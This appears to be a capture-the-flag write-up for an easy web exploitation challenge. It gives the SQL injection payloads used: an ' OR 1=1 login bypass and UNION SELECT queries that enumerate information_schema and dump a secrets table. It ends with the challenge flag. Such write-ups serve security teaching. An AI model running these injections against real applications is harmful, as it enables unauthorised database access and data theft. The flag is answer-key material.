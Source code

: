 # error=-330

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: Black Box

#### Description: You don’t ask for access. You carve it out.

#### Author: AndraB

#### Preview: 

![image](https://github.com/user-attachments/assets/2fa0c368-21f5-43fb-a181-4aad60473bcf)

## Solution
<details>

![image](https://github.com/user-attachments/assets/b92cd9a1-4456-4701-a99d-50baf30292f4)

`' OR 1=1--`

![image](https://github.com/user-attachments/assets/bdb616dc-c00c-419e-a90c-4b89ef75920d)

`' UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata-- -`

![image](https://github.com/user-attachments/assets/cebcad6e-8c4d-47a9-bd93-f05d039d8f9b)

`sqli_challenge` and `password_reset`

`' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema='sqli_challenge' -- -`

![image](https://github.com/user-attachments/assets/8fde99eb-25d0-4d1e-be8d-3fc027546846)

`' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema='sqli_challenge' AND table_name='secrets' -- -`

![image](https://github.com/user-attachments/assets/ad07e830-85b3-4f2e-9308-4927af6bbbe3)

`' UNION SELECT NULL,NULL,NULL,flag FROM sqli_challenge.secrets-- -`

![image](https://github.com/user-attachments/assets/0acccc85-a447-4d66-9a66-e1cae136e70e)

### Part 1 : `UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._`


### Flag
> UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}

</details>
